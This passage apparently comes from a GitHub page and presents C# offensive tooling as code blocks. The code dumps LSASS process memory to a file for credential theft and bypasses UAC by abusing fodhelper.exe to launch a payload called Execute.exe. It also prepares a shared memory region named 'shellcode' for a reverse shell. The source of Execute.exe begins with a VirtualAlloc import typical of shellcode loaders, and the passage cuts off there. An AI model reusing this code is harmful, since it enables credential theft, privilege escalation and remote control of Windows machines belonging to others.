 ```c#

    static void WriteMem(Process p)
    {
        FileStream fs = new FileStream("lsass.dat", FileMode.Create);

        bool status = MiniDumpWriteDump(p.Handle, (UInt64)p.Id, fs.SafeFileHandle, (UInt64)2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        if (status)
        {
            System.Console.WriteLine("Done!");
            fs.Close();
            System.Console.ReadLine();
        }
        else
        {
            System.Console.WriteLine("[!] Error dumping the process");
        }
        return;
    }

    static void MemoryMappingForIPC(AutoResetEvent handle)
    {
        MemoryMappedFile mmf = MemoryMappedFile.CreateNew("shellcode", 500, MemoryMappedFileAccess.ReadWrite);
        ReverShell(mmf,handle);

    }

    static void ExecuteUAC()
    {
        ByPassUAC("C:\\Users\\root\\source\\repos\\Execute\\Execute\\bin\\x64\\Debug\\Execute.exe");
        Process p = ActivateProcess("C:\\Windows\\System32\\fodhelper.exe");
    }

    static void Main(string[] args)
    {
        AutoResetEvent waitHandle = new AutoResetEvent(false);
        Thread t1 = new Thread(new ThreadStart(() => MemoryMappingForIPC(waitHandle)));
        t1.Start();
        Thread t2 = new Thread(new ThreadStart(ExecuteUAC));
        waitHandle.WaitOne();
        t2.Start();
//        WriteMem(p);
    }
}
```


Code for Execute.exe 
```c#
using System;
using System.IO.MemoryMappedFiles;
using System.Runtime.InteropServices;

class Program
{

    [DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(UInt64 lpAddress, UInt64 dWsize, UInt64 flAllocationType, UInt64 flProtect);

    [DllImport("kernel32")]
```